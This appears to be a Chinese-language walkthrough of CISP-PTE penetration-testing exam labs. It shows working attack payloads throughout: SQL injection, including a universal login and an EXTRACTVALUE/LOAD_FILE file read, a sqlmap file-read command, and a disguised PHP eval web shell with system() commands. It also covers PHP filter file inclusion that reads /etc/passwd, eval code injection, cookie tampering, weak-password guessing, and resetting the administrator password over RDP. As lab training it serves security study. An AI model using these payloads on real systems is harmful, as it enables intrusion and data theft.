### 第一题
使用万能密码登陆首页
	admin' or 1=1 --+
	emm
失败说明后端逻辑类似`select '密码' from 表 where 用户名 = 'username'`
```sql
select 'emm' from 表 where 用户名 = 'admin' or 1=1 --+ #这是无效的

select 123456 from 表 where 用户名 = 'admin' or 1=1 --+ #这是有效的
||等效于
select 123456 from 表 where 用户名 = True --+
```
进入首页发现这个页面get传参传入did参数，分别设置did=2/1与did=2/0 查询结果不同说明did=2/1等于did=2是合法数字型运算查询到did=2的结果，而2/0是不符合分数的基本性质的不做计算查不到数据
	
	
综上判断类型为**数字型**
```http
?did=2/0 and 1=1
?did=2/1 and 1=1
# 返回不同证明存在注入
```
- 
	
报错注入读文件`0x2F6B65792E63697370` 就是 /key.cisp
```sql
did=1 AND EXTRACTVALUE(1,CONCAT(0x7e,LOAD_FILE(0x2F6B65792E63697370))) #即可获取key
```
**使用load_file()时切记先读取一定存在的文件如/etc/passwd验证是否开启了文件读取的权限**
#### 其它方法
**张志成**的union查询亦可获取结果**但是需记住union语句的前面需要设为不存在的值这里是tid=-4，-4在数据库中不存在所以展示后面的结果不然可能会覆盖**
	
**sqlmap**
```bash
python sqlmap.py -r 存在sql注入的请求包 --batch --file-read="/key.cisp"
```
### 第二题
随便上传一个文件shell.php
```php
<?php phpinfo();?>
```
- 
客户端可以修改的图片特征有**文件标识符gif(GIF89a)，Content-Type，文件后缀**，
```
Content-Disposition: form-data; name="file"; filename="shell.jpg"
Content-Type: image/jpeg

GIF89a
<?php phpinfo();?>
```
- 
能改的都改了依旧被拦截说明对文件内容进行了检查，这里告诉我们<\?为黑客行为
```php
#内容修改为如下内容
<script language="php">phpinfo();</script>
```
- 
上传成功，但是我们需要修改文件后缀，需要是可以解析为php的后缀不然就得使用文件包含绕过格式限制。**文件上传成功三要素，成功上传，路径可知，成功解析**
```
filename="shell.php"
```
- 
php的其它解析格式还有php,php3,php4,php5,phtml其中phtml中不含php，还可以尝试大小写，双写绕过
	
	
	
找到路径以及成功解析直接上传一句话木马
```php
<script language="php">@eval($_GET['cmd']);</script>
```
- 
解析成功：路径/var/www/html/upload
- 
```
?cmd=system('find /var/www -name *ke*'); #正则匹配搜索包含ke子字符串的文件
```
- 
发现/var/www/html/key.php
```bash
?cmd=system('cat /var/www/html/key.php');
```
- 
### 第三题
确认存在包含漏洞
	
尝试伪协议读取
```
?page=php://filter/convert.base64-encode/resource=/../../../etc/passwd #尝试失败说明有过滤
```
- 
```
?page=PHP://filter/convert.base64-encode/resource=/../../../etc/passwd #纯大写读取成功
```
- 
读取index.php分析
```
?page=PHP://filter/convert.base64-encode/resource=index.php
```
- 
```php
# 筛选过后的有用信息可以发现过滤
<?php error_reporting(0); ?>
<?php include("function.php"); ?>
<head>
  <title>CISP-PTE 认证考试</title>
  <link rel="stylesheet" href="../css/bootstrap.min.css">
  <link rel="stylesheet" href="../css/style.css">

  <?php include '../header.php'; ?>
        <?php
        $page = $_GET['page'];
        $protocols = ["php://", "file://", "ftp://", "zlib://", "data://", "glob://", "phar://", "ssh2://", "rar://", "ogg://", "expect://"];
        foreach ($protocols as $proto) {
          $page = str_replace($proto, "", $page);
        }
        include($page);
        ?>
  <?php include '../footer.php'; ?>
```
逐级读取：
```
?page=PHP://filter/convert.base64-encode/resource=../key.cisp
```
- 
### 第四题

源码分析：
```
error_reporting(0); # 关闭报错
include "key4.php"; # 文件包含
$a=$_GET['a']; #请求方式GET，参数a
eval("\$o=strtolower(\"$a\");"); #对传入的参数全部使用strtolower转为小写后在交给eval执行
echo $o; #输出eval的执行结果
show_source(__FILE__); #源码展示
```
解答：
```
?a=");show_source("key4.php");//
插入参数插入代码中变成：
eval("\$o=strtolower(\"\");show_source("key4.php");//
```
- 
获取到key4.php的源码：
```php
<?php $key4 = file_get_contents('key.cisp');?> # 这里已经使用file_get_contents包含了key.cisp直接读去即可
```
读取key.cisp:
```
?a=");show_source("key.isp");//
插入eval中:
eval("\$o=strtolower(\"\");show_source("key.cisp");//
```
- 
#### 核心是通过")闭合eval语句执行其它命令//用于注释后面的语句
同理：
```
?a=");system("ls -la");// #获取当前目录文件及其权限
?a=");system("pwd");// #获取当前路径
?a=");system("cat /var/www/html/start/key.cisp");// #读取文件
```

### 第五题

修改Username，这里是url加密后的base64
	
修改为admin并进行加密
	
替换R3Vlc3Q%3D为YWRtaW4=
	
注意到虽然用户名为admin了但是cookie中还有个bool值会校验是否为adminIsAdmin=false;改为true
	
### 综合体：
拿到目标IP:192.168.230.151
默认访问80端口，一般站点就在这里
#### 密码爆破，尝试万能密码
- 
要登陆，可以尝试admin：admin，admin，123456等类似弱密码或者使用burpsuit进行爆破获得密码admin：admin
	
#### 目录扫描
- 
端口扫描
	

#### admin登陆
 - 
上传image
- content-type : image/jpeg
- 请求体中添加: GIF89a
- 
	
解析成功
	
上传一句话木马
	
尽量使用\$\_POST,链接成功！
	
发现根目录下存在key
	
进入蚁剑shell中查看计算机名
	
之前扫出了3389端口：
	
不放心可以使用这个开启3389
	
开启之后使用这个程序进行远程连接，输入对应的IP后需要选择登陆的用户
	
当前用户名是计算机名/system
这是一个比administrator权限更高的账户，可以直接重置任何密码无需校验
	
一共5个账号优先修改administrator的密码
	
修改密码成功
	
尝试远程连接后进入administrator的桌面寻找flag，什么垃圾桶呀犄角旮旯都找一找
	
另外：还有一个phpmyadmin登陆后台，尝试admin：admin；admin：123456；root：root；root：123456

admin：admin123等
	
在数据库中寻找tupian数据库，因为之前路径中有它
	
发现key
	

#### 如果登陆进不去CMS系统则需要在phpmyadmin修改密码
